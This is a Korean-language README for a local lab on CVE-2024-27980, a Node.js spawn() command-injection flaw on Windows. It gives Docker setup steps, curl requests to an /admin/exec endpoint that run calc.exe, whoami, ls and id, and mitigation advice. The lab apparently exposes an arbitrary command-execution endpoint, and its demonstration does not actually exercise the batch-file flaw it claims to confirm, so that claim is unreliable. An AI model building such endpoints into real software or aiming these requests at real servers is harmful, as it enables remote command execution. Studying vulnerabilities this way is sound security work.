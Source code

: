 # CVE-2024-27980 - Improper handling of batch file extensions in Node.js child_process.spawn()

## 요약
- **CVE 번호**: CVE-2024-27980
- **취약점 설명**: Node.js의 `child_process.spawn()` 및 `spawnSync()` 함수가 Windows 환경에서 배치 파일(.bat) 확장자 처리를 부적절하게 하여, `shell: false` 옵션을 사용했음에도 명령어 주입이 발생할 수 있다.
- **영향 받는 버전**: Node.js 18.x, 20.x, 22.x 릴리스 라인 (Windows 환경)
- **취약점 유형**: Command Injection
- **PoC 방식**: `shell: false` 설정 상태에서도 명령어 실행이 가능함을 확인


## 환경 구성 및 실행
- 테스트 서버는 Node.js 20 버전을 사용하여 Docker를 구성한다.
- `http://localhost:3000/admin/exec` 에 POST 요청을 보내면서 명령어를 실행한다.

### 환경 요구사항
- Windows OS (Docker Desktop 설치)
- Node.js 설치 (20.x 버전)
- Git Bash, PowerShell 사용

아래는 docker 환경 구축을 하는 방법이며, 사진은 해당 결과물이다.
```
docker-compose build --no-cache
```
![image](https://github.com/user-attachments/assets/b1266083-393e-4671-af16-788d5efdf557)
<br>
```
docker-compose up -d
```
![image](https://github.com/user-attachments/assets/587fdcf7-c68c-48d6-90f1-1e01fe0c7cb8)

<br />
## 결과
### [윈도우 환경] 
- Docker 컨테이너는 리눅스 기반으로 동작하기 때문에, Windows 전용 프로그램(calc.exe 등)은 실행되지 않는다.
- 하지만, 실제 windows 환경에서는 관련 명령어 시도가 가능한 것을 확인할 수 있다. (node 설치 필요) 아래 과정을 통해 프로그램 실행이 가능한 것을 확인할 수 있다. (calc.exe 출력)

1. ../src 경로에서 `node app.js` 실행
2. 아래 명령어 입력
```
curl -X POST http://localhost:3001/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd": "calc.exe", "args": []}'
```
실제 계산기 프로그램이 자동으로 실행되는 것을 확인할 수 있다.
<br>

### [Docker 환경]
- 리눅스 기본 명령어인 `ls`, `id`, `whoami` 등을 curl 명령어로 요청을 보내며 PoC를 진행한다.
1. whoami 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"whoami","args":[]}'
```
결과 화면 : ![image](https://github.com/user-attachments/assets/f2fc8d40-396c-4648-bcec-312ee34fa681)

2. ls 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d "{\"cmd\":\"ls\",\"args\":[\"-l\"]}"
```
결과 화면 : ![image](https://github.com/user-attachments/assets/b4b75a31-ea85-4173-b0e4-8db37d9ba988)

3. id 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"id","args":[]}'
```
결과 화면 : ![image](https://github.com/user-attachments/assets/61b84ab2-60e3-40c1-81c1-e5ceec0f2820)

위 curl 명령어를 통해 실행한 결과는, 터미널에서 직접 해당 명령어들을 입력했을 때 출력되는 결과와 동일함을 확인할 수 있다.

<br />
## 정리
- CVE-2024-27980은 Windows 환경에서 child_process.spawn() 및 spawnSync()가 확장자 자동 처리 과정에서 명령어 주입을 방지하지 못해 발생하는 취약점이다.
- `shell: false` 설정만으로는 Windows 환경에서 완벽한 명령어 검증이 되지 않으며, 사용자가 입력한 명령어를 통해 프로그램 실행이 가능해질 수 있다.
- PoC 결과, Docker 리눅스 컨테이너에서는 리눅스 기본 명령어 실행이 가능했으며, Windows 로컬 환경에서는 calc.exe 실행을 통해 프로그램 실행이 가능함을 확인하였다.
- 해당 취약점을 방지하기 위해 Node.js를 최신 버전(v20.15.1 이상)으로 업데이트하고, 사용자 입력값에 대한 엄격한 검증이 필요하다

<br />
---
## 참고
https://nodejs.org/en/blog/vulnerability/july-2024-security-releases
https://nvd.nist.gov/vuln/detail/CVE-2024-27980
https://knvd.krcert.or.kr/detailSecNo.do?IDX=6235
